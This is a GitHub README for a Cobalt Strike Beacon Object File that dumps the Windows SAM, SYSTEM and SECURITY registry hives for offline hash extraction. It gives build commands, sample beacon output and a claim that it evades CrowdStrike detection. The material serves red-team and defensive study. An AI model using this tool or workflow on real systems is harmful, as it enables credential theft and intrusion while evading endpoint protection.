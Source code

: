 # About
Beacon Object File(BOF) for CobaltStrike that will acquire the necessary privileges and dump SAM - SYSTEM - SECURITY registry keys for offline parsing and hash extraction.

It will write 3 'temporary files' containing the SYSTEM, SAM and SECURITY hives to the standard temporary directory. They can then be downloaded and deleted from the host system.

## Compiling

Compiled BOFs provided for ease, but otherwise just run `make` in the root directory.

```
[stuart@ubuntu ~/dev/github.stufus/BOF-RegSave]$ make
x86_64-w64-mingw32-gcc -o source/entry_x64.o -c source/entry.c -Os -s -Qn -nostdlib  -Wl,-s,--exclude-all-symbols
x86_64-w64-mingw32-strip -N entry.c source/entry_x64.o
i686-w64-mingw32-gcc -o source/entry_x86.o -c source/entry.c -Os -s -Qn -nostdlib  -Wl,-s,--exclude-all-symbols
i686-w64-mingw32-strip -N entry.c source/entry_x86.o
x86_64-w64-mingw32-ld -x -r source/*_x64.o -o regdump.x64.o
i686-w64-mingw32-ld -x -r source/*_x86.o -o regdump.x86.o
```

## Instructions

Install the CNA script and run the `bof-regsave` command.

## Example

```
beacon> bof-regsave
[+] host called home, sent: 2336 bytes
[+] received output:
regsave: SYSTEM hive saved to C:\Users\IT07C5~1.USE\AppData\Local\Temp\tmp4815.tmp
regsave: SAM hive saved to C:\Users\IT07C5~1.USE\AppData\Local\Temp\tmp4813.tmp
regsave: SECURITY hive saved to C:\Users\IT07C5~1.USE\AppData\Local\Temp\tmp4814.tmp
```

Those files can then be downloaded using the `download` command.

## Detection

At the time of writing (15/July/2022), this is not detected by Crowdstrike in aggressive mode.

## Credits

Template & Makefile based on repo from [@realoriginal](https://github.com/realoriginal/beacon-object-file)

## Reading material for BOF

[CS Beacon Object Files](https://www.cobaltstrike.com/help-beacon-object-files)

[Aggressor-Script functions](https://www.cobaltstrike.com/aggressor-script/functions.html)

[Beacon Object Files - Luser Demo](https://www.youtube.com/watch?v=gfYswA_Ronw)

[A Developer's Introduction To Beacon Object Files](https://www.trustedsec.com/blog/a-developers-introduction-to-beacon-object-files/)

_Github repos_

```
https://github.com/rsmudge/ZeroLogon-BOF
https://github.com/rsmudge/CVE-2020-0796-BOF
https://github.com/trustedsec/CS-Situational-Awareness-BOF
https://github.com/tomcarver16/BOF-DLL-Inject
https://github.com/m57/cobaltstrike_bofs/
https://github.com/rvrsh3ll/BOF_Collection/
https://github.com/realoriginal/bof-NetworkServiceEscalate
```

## Author
[@leftp](https://github.com/leftp)
[@ukstufus](https://github.com/stufus) Automatically obtain and create temporary files for ease of use (and a little stealth), using beacon output
formatting for tidier output, minor debugging changes.
